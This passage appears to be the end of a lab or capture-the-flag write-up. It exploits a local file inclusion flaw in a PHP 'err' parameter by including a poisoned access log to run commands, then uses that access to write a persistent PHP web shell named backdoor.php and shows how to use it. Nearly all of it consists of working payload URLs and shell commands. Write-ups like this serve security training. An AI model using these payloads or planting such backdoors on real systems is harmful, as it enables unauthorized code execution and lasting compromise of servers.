 LFI:

```php
<SERVER_IP>/index.php?err=../../../../var/www/html/includes/logs/app_access.log
```

_Error: Cannot execute a blank command in var/www/html/includes/logs/app_access.log_

**The error just means it doesn't know how to render it**

We should now have code execution. We can check by using this command:

```php
<SERVER_IP>/index.php?err=../../../../var/www/html/includes/logs/app_access.log&cmd=whoami
```

## Second Backdoor

We can use the first backdoor to create a file that runs the same script:

```php
<SERVER_IP>/index.php?err=../../../../var/www/html/includes/logs/app_access.log&cmd=echo '<?php echo 'ayylmao    ';system(\$GET['cmd']);?>' > backdoor.php
```

Navigate to file:

```php
<SERVER_IP>/backdoor.php
```

Useage:

```php
<SERVER_IP>/backdoor.php?cmd=whoami
```

We could now use this to get a full reverse shell and get onto the machine, but i think we'll leave it there.

---

**Completed:** 08:53 2024-07-16